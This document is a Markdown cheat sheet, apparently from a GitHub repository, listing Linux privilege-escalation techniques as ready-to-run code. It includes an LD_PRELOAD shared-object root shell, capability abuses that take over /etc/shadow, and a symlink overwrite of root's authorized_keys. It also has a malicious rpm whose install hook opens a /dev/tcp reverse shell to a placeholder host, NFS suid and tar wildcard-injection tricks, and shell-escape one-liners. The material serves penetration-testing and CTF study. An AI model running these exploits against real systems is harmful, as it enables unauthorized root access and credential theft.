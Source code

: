 # Linux Privilege Escalation
## Misconfiguration
- Find writable directories
	`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
	`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
	`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
	`find / -perm /4000 2>/dev/null`
- Find guid binaries
	`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
	`getcap -r / 2>/dev/null`
- Look for cronjob
	`crontab -l`
	`cat /etc/crontab`
- Look for nfs exports
	`cat /etc/exports`

## LD_PRELOAD
If `env_keep += LD_PRELOAD` in sudoers:
```bash
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Capabilities
### cap_setuid+ep
- perl
```perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```

### cap_chown
- python
```python
import os
os.chown("/etc/shadow", 1000, 1000)
```
- ruby
```ruby
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'
```

## Binaries
- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Local exploits
### Overwrite file with symlink
Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup
```bash
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)
```
### yum
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```bash
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### nfs
- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### tar
- Exploit tar with wildcard injection
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root
```

### pkexec
See this writeup for THM's road
https://wiki.thehacker.nz/docs/thm-writeups/road-medium/

## Shell escape sequence
| Tool   | Escape Sequence                                                 |
| ------ | --------------------------------------------------------------- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell`                     |
| awk    | `awk 'BEGIN {system(\"/bin/bash\")}'`                           |
| perl   | `perl -e 'exec \"/bin/bash\";'`                                 |
| find   | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap   | --interactive                                                   |                           


## Tools
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/rebootuser/LinEnum

## Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/
- https://tbhaxor.com/exploiting-linux-capabilities-part-3/

## Writeups
- https://blog.tryhackme.com/skynet-writeup/
- https://s1gh.sh/tryhackme-wonderland/